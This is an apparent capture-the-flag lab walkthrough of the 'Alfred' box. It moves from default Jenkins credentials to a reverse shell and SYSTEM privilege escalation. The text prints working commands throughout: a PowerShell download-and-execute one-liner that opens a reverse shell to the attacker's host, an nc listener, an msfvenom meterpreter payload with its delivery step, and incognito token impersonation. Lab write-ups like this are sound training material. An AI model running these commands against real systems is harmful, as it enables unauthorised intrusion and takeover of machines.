

# Alfred

> Nashia Holloway | April 30th, 2020

## Task 1 Initial Access

**1. How many ports are open?**

There are `3` ports open: 80, 8080, and 3389

**2. What is the username and password to login?**

`admin:admin`

**3. Find a feature of the tool that allows you to execute commands on the underlying system. Get a reverse shell this way.**

The feature is located in http://$IP:8080/job/project/configure. Next we need to create an http server with python. Need to use [nishang](https://github.com/samratashok/nishang).

```
python3 -m http.server 8000 --bind $IP
(in new tab)
nc -lvnp 9000
```
**MAKE SURE YOU'RE IN THE DIRECTORY THE POWERSHELL SCRIPT IS WHEN RUNNING THE PYTHON SERVER (I spent an embarrisingly long time troubleshooting why I kept getting a 404 status)**

Code for web app:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

It took a while to figure out why the python server wasn't serving the powershell file. After binding to my specific port and IP instead of the default, it worked.

## Task 2 Switching Shells

Switch to a metepreter shell to make prive esc easier.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$IP LPORT=1337 -f exe -o shell.exe
```

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://tunnel_IP:8000/shell_name.exe','shell_name.exe')"
```

Once the shell has been downloaded to the box, run the previous powershell script to gain access again and run the process. Before starting the process, make sure meterpreter is listening for the callback.

```
Start-Process "shell_name.exe"
```

Running the payload will open a meterpreter shell.

## Task3 Privilege Escalation

We use [token impersonation](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens) to gain access. First, migrate into a SYSTEM process. Then list the privileges the user has with `whoami /priv`. 



We can see we have [SeImpersonatePrivilege](https://www.exploit-db.com/papers/42556). Load incognito and list tokens to see who we want to impersonate.

```
load incognito
list_tokens -g
``` 

We use the `BUILTIN\Administrators` token.

```
impersonate_token "BUILTIN\Administrators"
```

Read the flag located at `C:\Windows\System32\config`.

